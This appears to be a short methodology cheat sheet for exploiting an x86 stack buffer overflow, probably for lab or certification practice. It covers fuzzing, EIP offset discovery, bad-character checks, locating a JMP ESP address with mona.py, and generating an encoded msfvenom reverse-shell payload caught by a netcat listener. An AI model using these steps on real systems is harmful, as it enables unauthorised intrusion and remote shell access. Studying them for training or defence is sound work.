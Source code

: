 # Buffer Oveflow

## Identify Overflow Length

1. Attach debugger
2. Run fuzzer script
3. Run confirm-overflow script

## Control EIP

1. Create pattern: `msf-pattern_create -l <length>`
2. Run locate-offset script
3. Locate offset: `msf-pattern_offset -l <length> <eip-value>`
4. Run verify-offset script

## Locate Space for Shellcode

1. Run increase-overflow script to attempt increasing overflow size
2. If successful, run bad-char script

## Find Return Address

1. Locate module w/ least memory protection: mona.py `!mona modules`
2. JMP ESP hex: `msf-nasm_shell > jmp esp` (FFE4)
3. Locate JMP ESP w/ no bad chars: mona.py `find -s "\xff\xe4" -m "<dll module>"`
4. Run verify-jmp-esp script

## Getting Shell

1. Generate payload: `msfvenom -p <payload> LHOST=<ip> LPORT=<port> EXITFUNC=thread -f <format> -e x86/shikata_ga_nai -b "<bad-chars> (e.g. \x00\x0a\x0d\x25\x26\x2b\x3d)"`
2. Run listener: `sudo nc -nvlp <port>`
3. Run exploit script
